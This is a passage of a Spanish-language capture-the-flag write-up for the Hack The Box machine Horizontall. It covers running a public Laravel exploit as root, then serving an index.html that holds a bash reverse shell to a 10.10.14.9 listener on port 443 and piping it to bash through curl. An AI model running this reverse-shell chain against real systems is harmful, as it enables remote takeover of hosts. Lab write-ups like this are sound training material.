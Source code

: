 me clono el repositorio y simplemente hago los pasos para explotar la vulnerabilidad de laravel 
probaŕe el exploit con un simple id para ver si funciona y seguido tenemos RCE:D vemos que esta como root  

![](/assets/img/commons/Horizontall/terminal17.png)

Intentando varias formas de enviarme una revese shell no me funcionaba directamente con el comando asi que lo que opte fue crearme un documento llamado index.html donde contenga la reverse shell para compartir mi servidor y con un pipe interpretar el script con bash a la hora de hacer la consulta al index.html

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1'
```
1. Me pongo en escucha por el puerto 443 
2. Comparto mi servidor en python3 donde tengo el index.html 
3. Mando la petición con curl desde el exploit con bash para que me interprete la reverse shell

![](/assets/img/commons/Horizontall/terminal18.png)

tenemos un GET exitoso y en nuestro nc tenemos la shell, buscamos la flag de root y otra máquina completada:)!
